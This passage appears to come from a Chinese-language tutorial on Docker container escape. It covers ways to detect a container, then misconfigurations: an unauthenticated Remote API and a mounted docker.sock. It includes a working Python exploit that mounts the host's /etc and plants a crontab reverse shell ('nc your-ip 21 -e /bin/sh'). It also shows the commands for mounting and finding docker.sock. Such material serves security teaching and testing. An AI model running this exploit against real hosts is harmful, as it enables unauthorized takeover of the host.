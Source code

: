 首先，我们需要先判断是否在 Docker 环境里，常用的两个检测方式：

-   检查 `/.dockerenv` 文件是否存在
-   检查 `/proc/1/cgroup` 内是否包含 Docker 等字符串。

目前来说，这两种检测方式还是比较有效的，其他检测方式，如检测 mount、fdisk -l 查看硬盘、判断 PID 1 的进程名等也可用来辅助判断。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print](assets/1699410763-58cfd074f3d3a5e86053741add72d667.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print")

## [](#3-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%BC%95%E5%8F%91-docker-%E9%80%83%E9%80%B8)3 配置不当引发 Docker 逃逸

### [](#31-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)3.1 Docker Remote API 未授权访问

漏洞简述：Docker Remote API 可以执行 Docker 命令，Docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 Docker。

利用方法是，我们随意启动一个容器，并将宿主机的 `/etc` 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

EXP：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```python<br>import docker<br><br>client = docker.DockerClient(base_url='http://your-ip:2375/')<br>data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontab" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})<br>``` |

### [](#32-dockersock-%E6%8C%82%E8%BD%BD%E5%88%B0%E5%AE%B9%E5%99%A8%E5%86%85%E9%83%A8)3.2 docker.sock 挂载到容器内部

场景描述：简单来说就是 docker in docker，在 docker 容器中调用和执行宿主机的 docker，将 docker 宿主机的 docker 文件和 docker.sock 文件挂载到容器中，具体为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>docker run --rm -it \<br>  -v /var/run/docker.sock:/var/run/docker.sock \<br>  -v /usr/bin/docker:/usr/bin/docker \<br>  ubuntu \<br>  /bin/bash<br>``` |

漏洞复现：

1.  在容器中找到 docker.sock

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>root@95a280bc5a19:/# find / -name docker.sock<br>/run/docker.sock<br>``` |
